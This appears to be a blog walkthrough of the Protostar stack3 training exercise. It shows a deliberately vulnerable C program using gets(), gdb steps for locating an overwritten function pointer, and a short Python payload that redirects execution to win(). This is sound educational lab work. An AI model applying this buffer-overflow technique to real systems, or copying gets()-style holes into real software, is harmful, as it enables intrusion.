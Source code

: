 ```yaml
---
title: "Protostar stack3 walkthrough"
date: 2020-05-21
tags: [buffer overflow, protostar, stack3, walkthrough]
header:
  image: "/images/protostar/protostar.png"
---
```


## Protostar exercises - [stack3](https://exploit-exercises.lains.space/protostar/stack3/)

#### About
Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

Hints

both gdb and objdump is your friend you determining where the win() function lies in memory.
This level is at /opt/protostar/bin/stack3

#### Source code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

#### Procedure:

Similar to stack0, the program is using `gets()` function to write input into a buffer. And the variable 'fp' which is a function pointer needs to be changed from 0 to address of 'win()' function.

So first we need to find 'win()' address using objdump and write it to the address of 'fp' variable

##### Vulnerability:

`gets()` is vulnerable as it is impossible to tell how many characters gets() will reaed. it will continue to store the characters past the end of buffer.
`fgets()` needs to be used instead.


##### Disassembly:

Lets start by disassembling the binary

```
gdb ./stack3
(gdb) set disassembly-flavor intel
(gdb) disassemble main
```


![disassembly]({{site.url}}{{site.baseurl}}/images/protostar/stack3/disassemble.png)

'fp' is stored at $esp+0x5c. It is moved into eax and called at 0x08048475. Out aim is to overwrite $esp value at this point. Lets put breapoint at this call.

```
break *0x08048475
```

Lets execute with input large enough to change $eax

```
r
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
![registers]({{site.url}}{{site.baseurl}}/images/protostar/stack3/registers.png)

We can see that $eax is changed to 0x41414141

We can find address of 'win' function using `x win`
```
(gdb) x win
0x8048424 <win>:        0x83e58955
```

Now, we need to find which part of input is being written to $eax and change it to 0x8048424

So, lets run with input AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS and check the registers

![registers-2]({{site.url}}{{site.baseurl}}/images/protostar/stack3/registers-2.png)

$eax contains 0x53535353, which is 'SSSS'

Lets create a simple python program to create the string
```python
padding = "AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR"
padding += "\x24\x84\x04\x08"
print padding
```
Lets use the output of this to run stack3

```
python stack3.py > exp
(gdb) r < /home/user/exp
info registers
```

We see $eax is now 0x8048424. So, next instruction would be to execute $eax or win() and print success

![done]({{site.url}}{{site.baseurl}}/images/protostar/stack3/done.png)

We can also find the address of win() using
```
user@protostar:/opt/protostar/bin$ objdump -x ./stack3 | grep win
08048424 g     F .text  00000014              win
```
